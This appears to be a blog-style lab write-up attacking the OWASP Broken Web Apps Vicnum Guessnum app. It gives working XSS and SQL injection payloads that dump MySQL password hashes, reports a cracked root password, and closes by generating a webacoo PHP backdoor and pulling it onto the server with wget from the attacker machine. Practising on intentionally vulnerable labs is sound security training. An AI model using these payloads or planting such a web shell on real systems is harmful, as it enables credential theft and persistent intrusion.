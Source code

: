 +++
title = "OWASP Broken Web Apps Vicnum - Guessnum"
slug = "owasp-broken-web-apps-vicnum-guessnum"
default_language = "en"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

```javascript
&lt;script&gt;alert(1)&lt;/script&gt;
```

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

```sql
' or 1 = 1 #
```

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
```sql
'  union all select user,password,3,4 from mysql.user#
```

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
```sql
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
```

Next lets ssh to the VM:

```bash
ssh root@ip
pw: owaspbwa
```

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

```bash
webacoo -g -o bd.php
```

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

```bash
wget http://iptoparrot:8000/bd.php
```

Then to test things out:

```bash
webacoo -t -u http://ip/bd.php
```
